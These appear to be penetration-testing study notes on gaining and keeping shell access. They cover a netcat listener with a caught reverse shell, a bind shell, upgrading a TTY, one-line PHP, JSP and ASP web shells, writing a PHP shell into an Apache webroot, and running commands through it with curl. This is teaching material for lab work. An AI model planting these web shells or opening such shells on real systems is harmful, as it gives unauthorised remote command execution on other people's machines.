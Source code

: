 ### Reverse Shell
* Most common type of shell
	* Quick and easy
* Use netcat to listen for the connection coming from the victim

#### Netcat Listener
* Start `netcat` listener on a port of our choosing

```bash
# -l Listen mode, to wait for a connection to connect to us.
# -v Verbose mode, so that we know when we receive a connection.
# -n Disable DNS resolution and only connect from/to IPs, to speed up the connection.
# -p 1234 Port number `netcat` is listening on, and the reverse connection should be sent to.
$ nc -lvnp 1234

listening on [any] 1234 ...
```

#### Reverse Shell Command
* Command depends on host OS
* Connection comes from the victim to us
* [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) has a list of reverse shells or different use cases
* Used when we want a quick reliable connection
* However reverse shells are very fragile when losing the connection or canceling a command

```bash
$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Bind Shell
* Like a reverse shell, but we have to connect to the targets' listening port

```bash
$ nc 10.10.10.1 1234

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

* Unlike a reverse shell, we drop the connection, we can just connect back via netcat
* However if the remote host reboots or the connection is stopped or any reason we lose our access

#### Upgrading TTY
* Multiple methods

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ ^Z

$ stty raw -echo
$ fg

[Enter]
[Enter]
www-data@remotehost$
```

* Further, upgrade the shell to enable all features just like an SSH connection

```bash
# In a new terminal window
$ echo $TERM
xterm-256color
$ stty size
67 318

# Back in netcat
$ export TERM=xterm-256color
$ stty rows 67 columns 318
```

#### Web Shell
* Typically a web script i.e `php` or `ASPX` that accepts our command trough HTTP requests
	* `GET` or `POST`
	* Prints output back to web page
*  Common shell scripts

```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```

#### Uploading a Web Shell
* Place the script into the remote host's directory (webroot)

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| Apache     | /var/www/html/         |
| Nginx      | /usr/local/nginx/html/ |
| IIS        | C:\inetpub\wwwroot\    |
| XAMPP      | C:\xampp\htdocs\       |

* Apache example

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

#### Accessing Web Shell
* We can open the file via a browser or `cURL`
* We provide our commands via the get parameter `?cmd=`

```bash
$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

